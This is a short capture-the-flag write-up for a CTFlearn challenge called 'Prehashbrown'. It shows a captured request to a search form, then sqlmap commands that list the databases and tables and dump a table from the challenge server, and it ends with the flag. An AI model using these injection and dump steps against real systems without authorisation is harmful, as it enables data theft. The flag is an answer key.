


## Prehashbrown
The main idea finding the flag is get flag SQL Injection using Burpsuite and exploiting Database.

#### Step-1:
I visited the given link: [Hashbrown Database](http://138.197.193.132:5000/login)



#### Step-2:



This search bar is SQL Injection Vulnerable. So, using Burpsuite, I capture the request header and saved as `header.txt`.

```bash
POST / HTTP/1.1
Host: 138.197.193.132:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.197.193.132:5000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Cookie: session=.eJwtzrERwzAIAMBdVLtAWCDwMjkQcElrx1Uuu6fJT_Cf9qgzr2c73uedW3u8oh0NVdNShiyl3MWRcAhG4FRmNQvupDjJuIYB7VyuFXuklJUvAy5z8M6046o1WIbmkgpP7xCGKg49xmKPKQTsgrIIQqlnjWxbu688_xmY7fsDJpIwUQ.XgoN7g.8npc5r-RdNRbhXE0vKTNozaJMPM
Connection: close
Upgrade-Insecure-Requests: 1

search=flag
```
#### Step-3:
So, I started to exploit the Database using SQLMap.
`sqlmap -r header.txt --dbs --batch`

Output:
```sql
[time][INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0.12
[time][INFO] fetching database names
available databases [2]:
[*] information schema
[*] prehashbrown
```

#### Step-4:
So, I tried to enumerate the `prehashbrown` table.
```sql
sqlmap -r header.txt -D prehashbrown --table --batch
```

Output:
```sql
...
[time] [INFO] fetching tables for database:
Database: prehashbrown
[2 tables]
+------------+
| user	     |
| hashbrown  |
+------------+
```

#### Step-5:
The flag is within the `hashbrown` table and I dumped all information from the table.

```sql
sqlmap -r header.txt -D prehashbrown -T hashbrown --column --batch --dump
```

#### Step-6:
Finally the flag becomes: 
`CTFlearn{h4shbr0wns_0n_th3_s3rv3r_@!#$<>[]}`
